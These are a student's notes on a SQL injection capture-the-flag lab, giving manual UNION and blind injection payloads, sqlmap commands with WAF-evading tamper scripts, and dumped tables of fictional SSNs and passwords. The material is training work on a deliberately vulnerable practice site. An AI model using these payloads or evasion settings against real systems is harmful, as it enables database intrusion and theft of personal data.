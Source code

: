 # SQL Injection Challenges
https://games.samsclass.info/sqli/ED103.html

## ED 103.2.1: SSN (15 pts)
**The flag is Linus' SSN.**

## Determine how many columns are being returned in the original sql payload
Not part of the curiculum but it's an extra tool in my belt I'll eventually need
>Sam' ORDER BY 1#

Returns nothing
>Sam' ORDER BY 2#

Gives an error.
Thus, there is 1 column being returned in the original payload.

>Sam' UNION SELECT ssn from employees#

Returns all SSNs in the employee table.

## ED 103.2.2: Password (20 pts extra)
The flag is Steve Jobs' password.
>Sam' union select pw from passwords where id=2#

alpine

## But how would I have found out that 'passwords' was a table that existed??
>Sam' union select 1 from passwords#

If this returns 1, it proves that the table passwords exists.
Now, column 'pw' I wouldn't have saught out to guess, but I guess any general variation of 'password' should always be checked.

Haven't gotten this one yet...

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --columns -T passwords

```Table: passwords
[3 columns]
+---------+----------------------+
| Column  | Type                 |
+---------+----------------------+
| id      | smallint(5) unsigned |
| isadmin | smallint(5) unsigned |
| pw      | varchar(20)          |
+---------+----------------------+
```



### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T passwords
```+----+----------+---------+
| id | pw       | isadmin |
+----+----------+---------+
| 1  | Dropping | 1       |
| 2  | Fl33t    | 0       |
| 3  | d0ggi3   | 0       |
| 4  | h4gg15   | 0       |
| 5  | w1n73r   | 999     |
+----+----------+---------+
```

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T employees
```Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```

**Steve Job (id=2)'s password = Dropping. He wanted us to do it by manual UNION exploitation, so I'll have to manually do that.

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

### Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

### Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

General notes:
- -T tablename (specify tablename)
- --dump (dump all contents of the table; this is necessary for the command to work)

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables

```Database: widgets2a
Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```
